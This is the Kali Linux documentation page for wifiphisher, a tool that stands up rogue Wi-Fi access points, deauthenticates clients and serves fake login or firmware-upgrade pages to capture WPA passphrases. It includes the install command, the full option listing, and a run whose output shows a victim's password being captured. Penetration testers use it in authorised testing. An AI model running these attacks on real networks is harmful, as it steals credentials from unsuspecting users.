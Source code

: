 ```yaml
---
Title: wifiphisher
Homepage: https://github.com/sophron/wifiphisher
Repository: https://gitlab.com/kalilinux/packages/wifiphisher
Architectures: all
Version: 1.4+git20220707-0kali1
Metapackages: kali-linux-everything 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### wifiphisher
 
  This package contains a security tool that mounts automated phishing attacks
  against Wi-Fi networks in order to obtain secret passphrases or other
  credentials. It is a social engineering attack that unlike other methods it
  does not include any brute forcing. It is an easy way for obtaining credentials
  from captive portals and third party login pages or WPA/WPA2 secret
  passphrases.
 
 **Installed size:** `7.91 MB`  
 **How to install:** `sudo apt install wifiphisher`  
 
 {{< spoiler "Dependencies:" >}}
 * cowpatty
 * dnsmasq-base
 * hostapd
 * iptables
 * net-tools
 * python3
 * python3-pbkdf2
 * python3-pyric 
 * python3-roguehostapd
 * python3-scapy
 * python3-tornado
 {{< /spoiler >}}
 
 ##### wifiphisher
 
 
 ```
 root@kali:~# wifiphisher -h
 usage: wifiphisher [-h] [-i INTERFACE] [-eI EXTENSIONSINTERFACE]
                    [-aI APINTERFACE] [-iI INTERNETINTERFACE]
                    [-pI PROTECTINTERFACE [PROTECTINTERFACE ...]]
                    [-mI MITMINTERFACE] [-iAM MAC_AP_INTERFACE]
                    [-iEM MAC_EXTENSIONS_INTERFACE] [-iNM] [-kN] [-nE] [-nD]
                    [-dC DEAUTH_CHANNELS [DEAUTH_CHANNELS ...]] [-e ESSID]
                    [-dE DEAUTH_ESSID] [-p PHISHINGSCENARIO] [-pK PRESHAREDKEY]
                    [-hC HANDSHAKE_CAPTURE] [-qS] [-lC] [-lE LURE10_EXPLOIT]
                    [--logging] [-dK] [-lP LOGPATH] [-cP CREDENTIAL_LOG_PATH]
                    [--payload-path PAYLOAD_PATH] [-cM] [-wP]
                    [-wAI WPSPBC_ASSOC_INTERFACE] [-kB] [-fH]
                    [-pPD PHISHING_PAGES_DIRECTORY]
                    [--dnsmasq-conf DNSMASQ_CONF] [-pE PHISHING_ESSID]
 
 options:
   -h, --help            show this help message and exit
   -i INTERFACE, --interface INTERFACE
                         Manually choose an interface that supports both AP and
                         monitor modes for spawning the rogue AP as well as
                         mounting additional Wi-Fi attacks from Extensions
                         (i.e. deauth). Example: -i wlan1
   -eI EXTENSIONSINTERFACE, --extensionsinterface EXTENSIONSINTERFACE
                         Manually choose an interface that supports monitor
                         mode for deauthenticating the victims. Example: -eI
                         wlan1
   -aI APINTERFACE, --apinterface APINTERFACE
                         Manually choose an interface that supports AP mode for
                         spawning the rogue AP. Example: -aI wlan0
   -iI INTERNETINTERFACE, --internetinterface INTERNETINTERFACE
                         Choose an interface that is connected on the
                         InternetExample: -iI ppp0
   -pI PROTECTINTERFACE [PROTECTINTERFACE ...], --protectinterface PROTECTINTERFACE [PROTECTINTERFACE ...]
                         Specify the interface(s) that will have their
                         connection protected (i.e. NetworkManager will be
                         prevented from controlling them). Example: -pI wlan1
                         wlan2
   -mI MITMINTERFACE, --mitminterface MITMINTERFACE
                         Choose an interface that is connected on the Internet
                         in order to perform a MITM attack. All other
                         interfaces will be protected.Example: -mI wlan1
   -iAM MAC_AP_INTERFACE, --mac-ap-interface MAC_AP_INTERFACE
                         Specify the MAC address of the AP interface
   -iEM MAC_EXTENSIONS_INTERFACE, --mac-extensions-interface MAC_EXTENSIONS_INTERFACE
                         Specify the MAC address of the extensions interface
   -iNM, --no-mac-randomization
                         Do not change any MAC address
   -kN, --keepnetworkmanager
                         Do not kill NetworkManager
   -nE, --noextensions   Do not load any extensions.
   -nD, --nodeauth       Skip the deauthentication phase.
   -dC DEAUTH_CHANNELS [DEAUTH_CHANNELS ...], --deauth-channels DEAUTH_CHANNELS [DEAUTH_CHANNELS ...]
                         Channels to deauth. Example: --deauth-channels 1,3,7
   -e ESSID, --essid ESSID
                         Enter the ESSID of the rogue Access Point. This option
                         will skip Access Point selection phase. Example:
                         --essid 'Free WiFi'
   -dE DEAUTH_ESSID, --deauth-essid DEAUTH_ESSID
                         Deauth all the BSSIDs in the WLAN with that ESSID.
   -p PHISHINGSCENARIO, --phishingscenario PHISHINGSCENARIO
                         Choose the phishing scenario to run.This option will
                         skip the scenario selection phase. Example: -p
                         firmware_upgrade
   -pK PRESHAREDKEY, --presharedkey PRESHAREDKEY
                         Add WPA/WPA2 protection on the rogue Access Point.
                         Example: -pK s3cr3tp4ssw0rd
   -hC HANDSHAKE_CAPTURE, --handshake-capture HANDSHAKE_CAPTURE
                         Capture of the WPA/WPA2 handshakes for verifying
                         passphrase. Requires cowpatty. Example : -hC
                         capture.pcap
   -qS, --quitonsuccess  Stop the script after successfully retrieving one pair
                         of credentials
   -lC, --lure10-capture
                         Capture the BSSIDs of the APs that are discovered
                         during AP selection phase. This option is part of
                         Lure10 attack.
   -lE LURE10_EXPLOIT, --lure10-exploit LURE10_EXPLOIT
                         Fool the Windows Location Service of nearby Windows
                         users to believe it is within an area that was
                         previously captured with --lure10-capture. Part of the
                         Lure10 attack.
   --logging             Log activity to file
   -dK, --disable-karma  Disables KARMA attack
   -lP LOGPATH, --logpath LOGPATH
                         Determine the full path of the logfile.
   -cP CREDENTIAL_LOG_PATH, --credential-log-path CREDENTIAL_LOG_PATH
                         Determine the full path of the file that will store
                         any captured credentials
   --payload-path PAYLOAD_PATH
                         Payload path for scenarios serving a payload
   -cM, --channel-monitor
                         Monitor if target access point changes the channel.
   -wP, --wps-pbc        Monitor if the button on a WPS-PBC Registrar is
                         pressed.
   -wAI WPSPBC_ASSOC_INTERFACE, --wpspbc-assoc-interface WPSPBC_ASSOC_INTERFACE
                         The WLAN interface used for associating to the WPS
                         AccessPoint.
   -kB, --known-beacons  Broadcast a number of beacon frames advertising
                         popular WLANs
   -fH, --force-hostapd  Force the usage of hostapd installed in the system
   -pPD PHISHING_PAGES_DIRECTORY, --phishing-pages-directory PHISHING_PAGES_DIRECTORY
                         Search for phishing pages in this location
   --dnsmasq-conf DNSMASQ_CONF
                         Determine the full path of a custom dnmasq.conf file
   -pE PHISHING_ESSID, --phishing-essid PHISHING_ESSID
                         Determine the ESSID you want to use for the phishing
                         page
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## Video

<script type="text/javascript" src="https://asciinema.org/a/104286.js" id="asciicast-104286" async></script>

## wifiphisher Usage Examples

Do not perform jamming (`-nJ`), create a wireless access point (`-e “Free Wi-Fi”`) and present a fake firmware upgrade to clients (`-T firmware-upgrade`). When a client connects, they a presented with a webpage to enter the PSK of their network:

```
root@kali:~# wifiphisher -nJ -e "Free Wi-Fi" -T firmware-upgrade
[*] Starting Wifiphisher 1.1GIT at 2017-02-22 13:52
[+] Selecting wlan0 interface for creating the rogue Access Point
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting Firmware Upgrade Page template
[*] Starting the fake access point...

Jamming devices:



DHCP Leases:
1487839973 c0:cc:f8:06:53:93 10.0.0.93 Victims-iPhone 11:c0:cc:38:66:a3:b3


HTTP requests:
[*] GET 10.0.0.93
[*] GET 10.0.0.93
[*] GET 10.0.0.93
[*] POST 10.0.0.93 wfphshr-wpa-password=s3cr3tp4s5
[*] GET 10.0.0.93
[*] GET 10.0.0.93
[*] GET 10.0.0.93
```
